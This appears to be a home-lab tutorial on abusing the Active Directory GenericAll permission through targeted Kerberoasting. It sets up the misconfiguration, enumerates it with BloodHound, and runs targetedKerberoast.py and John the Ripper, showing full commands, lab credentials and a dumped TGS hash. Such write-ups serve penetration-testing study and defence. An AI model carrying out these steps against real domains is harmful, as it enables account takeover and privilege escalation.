




# 🔐 GenericAll

## what is generic All?

In Active Directory, every object (like a user or group) has an Access Control List (ACL). If a user or account has the GenericAll right on another object, it can modify anything about that object.

#### 1. If the target is a User:
You can:

- Reset their password ➝ Log in as them.
- Add them to a privileged group ➝ Get admin access.

Now we have full access on an account then obviously we can add SPN and make it kerberoastable.. see the targeted kerberoastable

---

### Approach: Targeted Kerberoast

#### What is targeted Kerberoasting?

In a targeted Kerberoasting attack, an attacker first gains control over an account with either GenericAll, GenericWrite, WriteProperty or Validated-SPN permissions. These permissions allow the attacker to modify the attributes of other accounts, including the addition or modification of SPNs. Once the attacker has control over such an account, they can add or modify an SPN on a different, typically high-value, account, effectively setting it up for a Kerberoasting attack.


#### Scenario

Let’s suppose we have the credentials of user **Abdullah**:

- **Username**: `Abdullah`
- **Password**: `complex@8`

And `Abdullah` has a **GenericAll** on another user: **Martin**.

Here is your content formatted properly as Markdown, with no extras:


## Setting Up a Misconfiguration

Create a user martin

Right-click and go to:  
**Properties → Security**

#### Add User

Click on **Add**:



Here, add user **Abdullah** and click **OK**:



---

### Modify Permissions

just in the permssion tab and assign full control



## Enumeration from BloodHound

#### Data Collection using rust hound

```

rusthound --domain furious.local -u Abdullah -p complex8@ --output .

```

---

Now, when we enumerate it using **BloodHound**, we can see that **Abdullah** has **GenericAll** permission on **Martin**.




##  Exploiting Target User

To exploit this misconfiguration, we use **targeted Kerberoast** utilities. We can also use other approaches as well.

1. **targeted Kerberoast** – assigns an SPN, making the account kerberoastable.

#### ❓ Why not use `GetUserSPNs`?

It is useful if an SPN is already set for a user. Here, we first set an SPN because we have **GenericAll** access on the user.

---

```bash
python3 targetedKerberoast.py -v -d 'furious.local' -u 'Abdullah' -p 'complex8@'     
````

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/generic-all/targetedKerberoast]
└─$ python3 targetedKerberoast.py -v -d 'furious.local' -u 'Abdullah' -p 'complex8@'     
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (jack)
[VERBOSE] SPN added successfully for (martin)
[+] Printing hash for (martin)
$krb5tgs$23$*martin$FURIOUS.LOCAL$furious.local/martin*$04e9885ad2563e03cf80fba5f5fc4b23$4a16ff3f66c4650182b8dd7ec152c6c477669eacea15e652a4e00ce657b52e42c6217b635bd302883563ad761e24fb3dc911420489b6558cd07b9345b58ac4527ac869274802ce4be0712a11691a782153a61cf3a7db95473918c09a386bd678a2375324f68cee6d0e504e741960c8cfd0129b8b005c3198f558940e59734aa605b456ffe49e449f95f3d70846e2b5b2e6978baea43c12a6f54712e7089be4579f1fa68cb1226a149888f9cefcfad5b361d477e01484d9c64bb32e55b518721225cb8a4aea3db8d30c3036f60796b3fdd1ed442f957a83c16fa23ba5d3a0d91eb5ba7f9545841c5e92127e7dd07c13bdcf54830726a1835f519b6a00399aa4f3f2c1810481e440a3fb56ef2ddcd6cff171fbc9d9c5afb26da34108ce71d98135124995fd6d89087363c.
.
.
.
.
.f828bf73026787c281f17f97d58bc0fef8d41d8b705b4e8d62fc2c1adf3b79fe90ce131e7c42c0e75ebe364054fe3ac5149b0754d1c7a3cf709c39b45883cf1447d8e1afa48c82c91684dfcddbe4586356e61fe4ae7db2a3017fce9f276219979243a61a02dfc35940d8a9ad4efc1e800ca5921ff260636462b8058bc6fd7b69b7030ec7e28f3a5079e074a61d2d453a120804550fd94a448cad238a945dd42ee33c51783011a867a6e60c4de53d8dda376baaf7bfa41714dc1da25889d3dd51f592705ef60a59a01d2ce4a4991d0296d0108
[VERBOSE] SPN removed successfully for (martin)
```

---

###  Cracking the Hash with John

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/generic-all]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt kerb_hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123$     (?)     
1g 0:00:00:02 DONE (2025-05-10 02:08) 0.4716g/s 992120p/s 992120c/s 992120C/s Popadic3..Passion7
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


